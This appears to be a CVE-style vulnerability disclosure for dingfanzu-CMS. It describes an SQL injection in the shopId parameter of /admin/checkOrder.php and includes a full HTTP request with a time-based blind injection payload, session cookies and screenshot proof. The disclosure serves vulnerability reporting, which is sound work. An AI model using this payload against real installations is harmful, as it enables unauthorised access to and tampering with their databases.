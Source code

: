 # dingfanzu-CMS checkOrder.php shopId SQL-inject

**Exploit Title: dingfanzu-CMS checkOrder.php shopId SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/blob/main/dingfanzu**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "checkOrder.php" shopId module, resulting in the generation of SQL injection.

The path to the vulnerability：/admin/checkOrder.php?shopId=

    Payload used:

```
GET /admin/checkOrder.php?shopId=0002'+and+sleep(3)--+ HTTP/1.1
Host: dingfanzu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: adminId=16; adminName=liu; shopId=1000; Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1736094869; HMACCOUNT=74321D4C60CCF393; PHPSESSID=su7te2f8aq0m0hg3ukdbf7ouqm; places=%5B%7B%22shopId%22%3A%221000%22%2C%22shopName%22%3A%22%5Cu9f50%5Cu9c81%5Cu5927%5Cu53a6%22%7D%2C%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%5Cu6e56%5Cu5317%5Cu5927%5Cu53a6%22%7D%5D; userId=aaa1; shopInfo=%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%E6%B9%96%E5%8C%97%E5%A4%A7%E5%8E%A6%22%2C%22shopPhone%22%3Anull%2C%22shopTip%22%3A%22%E5%93%88%E5%93%88%22%2C%22shopState%22%3A%221%22%2C%22shopIcon%22%3A%221001.jpg%22%2C%22shopBlock%22%3A%22%3F%23A%23B%23%22%2C%22shopFloor%22%3A%22%3F%231%232%233%22%7D; cart1001=%5B%7B%22itemId%22%3A%221685431107987%22%2C%22name%22%3A%22%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu7092%5C%5Cu9e21%5C%5Cu86cb%22%2C%22count%22%3A1%2C%22price%22%3A%2211%22%7D%5D; myInfo=%7B%22userId%22%3A%22aaa1%22%2C%22paymethod%22%3A%220%22%2C%22pn%22%3Anull%2C%22name%22%3Anull%2C%22place%22%3A%22%22%2C%22block%22%3Anull%2C%22floor%22%3Anull%2C%22jifen%22%3Anull%2C%22email%22%3Anull%2C%22price%22%3A%220%22%2C%22orderArrivedTime%22%3A%221%3A30-2%3A00%22%2C%22orderRemark%22%3A%22%22%7D; cart0001=%5B%7B%22itemId%22%3A%221466524398193%22%2C%22name%22%3A%22%5C%5Cu5bab%5C%5Cu4fdd%5C%5Cu9e21%5C%5Cu4e01%5C%5Cu002b%5C%5Cu9e21%5C%5Cu86cb%5C%5Cu7092%5C%5Cu9ec4%5C%5Cu74dc%5C%5Cu002b%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu6284%5C%5Cu725b%5C%5Cu8169%22%2C%22count%22%3A1%2C%22price%22%3A%2215%22%7D%5D; shopId=1001; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1736099897
Connection: keep-alive


```



## Proof of Concept

The code does not validate the input data and does not use precompilation technology


![image-20250106015104794](https://github.com/user-attachments/assets/2780414f-c453-4396-b332-3b054080ccb6)



Practical verification

![image-20250106021003686](https://github.com/user-attachments/assets/656d9fab-e036-4d83-9bf0-06a19b94a48c)

